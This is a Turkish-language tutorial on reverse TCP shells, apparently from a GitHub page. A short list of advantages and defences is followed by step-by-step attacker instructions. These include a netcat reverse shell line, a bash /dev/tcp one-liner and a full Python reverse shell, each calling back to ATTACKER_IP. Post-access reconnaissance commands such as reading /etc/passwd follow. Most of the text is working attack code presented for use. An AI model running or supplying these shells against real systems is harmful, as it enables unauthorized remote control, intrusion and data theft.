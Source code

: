 Ters TCP’nin Avantajları
✅ Güvenlik duvarlarını ve NAT’ı aşabilir.
✅ Hedef sistemin gelen bağlantıları engellemesi halinde çalışabilir.
✅ Gizlilik açısından, bağlantıyı kurban başlattığı için daha az fark edilir.
Ters TCP’den Korunma Yöntemleri
🔹 Gereksiz portları kapat.
🔹 IDS/IPS ile şüpheli bağlantıları tespit et.
🔹 Anti-malware yazılımlarıyla izinsiz shell erişimlerini engelle.
🔹 Uygulamalarda güvenli kodlama yaparak RCE ve komut enjeksiyonlarını önle
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_
Ters TCP bağlantısını başarılı bir şekilde gerçekleştirdikten sonra, gelen bilgileri görmek ve yönetmek için kullanılan yöntemler, kullanılan araca göre değişir. İşte farklı araçlarla gelen bilgileri nasıl görebileceğinize dair adım adım açıklamalar:

1️⃣ Netcat (nc) ile Gelen Verileri Görme
Ters TCP bağlantısı kurulduğunda, saldırgan tarafında çalışan Netcat dinleyiciye bağlanır. Gelen bilgileri görmek için dinleyici (listener) terminalinde komutlar çalıştırabilirsiniz.
📌 Saldırganın Makinesinde (Bağlantıyı Dinleme)
bash
nc -lvp 4444

📌 Hedef Makinede (Ters TCP Bağlantısını Açma)
bash
nc -e /bin/bash ATTACKER\_IP 4444
Bağlantı başarılı olursa, saldırgan makinesindeki nc terminalinde hedef makinenin shell erişimi sağlanır. Burada ls, whoami, uname -a gibi komutlarla bilgileri görebilirsiniz.

2️⃣ Bash ile Gelen Verileri Görme
Bash üzerinden ters bağlantı sağladıktan sonra, aynı şekilde terminalden komutlar girerek hedef makineden gelen verileri okuyabilirsiniz.
📌 Bağlantı Açıldığında Kullanılabilecek Komutlar:
bash
whoami # Kullanıcı adını öğrenme 
uname -a # İşletim sistemi bilgilerini görme 
pwd # Hangi dizinde olduğunuzu kontrol etme 
ls -la # Hedef makinedeki dosyaları listeleme 
cat /etc/passwd # Kullanıcı listesini görme 
Eğer bağlantıyı bash -i >& /dev/tcp/ATTACKER\_IP/4444 0>&1 gibi bir yöntemle aldıysanız, bu komutları terminalinizde çalıştırarak hedef sistem hakkında bilgi edinebilirsiniz.

3️⃣ Python ile Gelen Verileri Görme
Python ile oluşturulan ters TCP bağlantısı sonrası, bağlantıyı yöneten terminalde yine komut çalıştırarak verileri görebilirsiniz.
📌 Hedef Makinede Python Reverse Shell Çalıştırıldıysa:
python
import socket,subprocess,os
s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM)
s.connect(("ATTACKER\_IP",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/bash","-i"])
📌 Saldırganın Makinesinde Bağlantıyı Dinleme:
bash
nc -lvp 4444
Bağlantı başarılı olduktan sonra, terminalinizden komutları çalıştırarak sistemdeki dosyalara, süreçlere ve kullanıcı bilgilerine erişebilirsiniz.

